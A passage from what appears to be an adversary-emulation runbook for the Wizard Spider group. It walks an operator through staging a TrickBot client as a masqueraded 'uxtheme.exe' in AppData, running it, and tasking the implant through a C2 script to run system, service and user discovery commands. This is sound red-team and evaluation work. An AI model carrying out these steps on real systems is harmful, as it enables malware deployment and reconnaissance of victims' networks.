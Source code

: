 Open `CMD.exe` and copy file to bill's AppData\Roaming

:warning: make sure you're in a `CMD` shell

```bash
copy \\tsclient\X\TrickBotClientExe.exe %AppData%\uxtheme.exe
```

 Kick off exeuction by starting TrickBotClientExe.exe

```bash
cd %AppData%
uxtheme.exe
```

Switch back to your C2 terminal window.

Take a screenshot of the new Trickbot session, and paste in Slack.

### :microscope: Cited Intelligence
* https://attack.mitre.org/groups/G0102/

* https://www.crowdstrike.com/blog/timelining-grim-spiders-big-game-hunting-tactics/

## Step 5 - TrickBot Discovery

:microphone: `Voice Track:`

In step 5 Wizard Spider uses TrickBot to perform detailed system discovery.

You will see TrickBot executing shell commands, such as systeminfo, sc.exe, net.exe, and so on.

Trickbot executes commands via the C standard library function, `system()`.

### :biohazard: Procedures

From your C2 server tab, execute the following commands.

```bash
# TrickBot gathers the OS version, machine name, CPU type, amount of RAM available, and UEFI/BIOS firmware information from the victim’s machine.[1][2][7][12]

./evalsC2client.py --set-task TrickBot-Implant "systeminfo > discovery.txt"
```

```bash
# TrickBot collects a list of install programs and services on the system’s machine.[1]

./evalsC2client.py --set-task TrickBot-Implant "sc query >> discovery.txt"
```


```bash
# TrickBot collects the users of the system.[1][6]

./evalsC2client.py --set-task TrickBot-Implant "net user >> discovery.txt"
```

```bash
./evalsC2client.py --set-task TrickBot-Implant  "net user /domain >> discovery.txt"
```
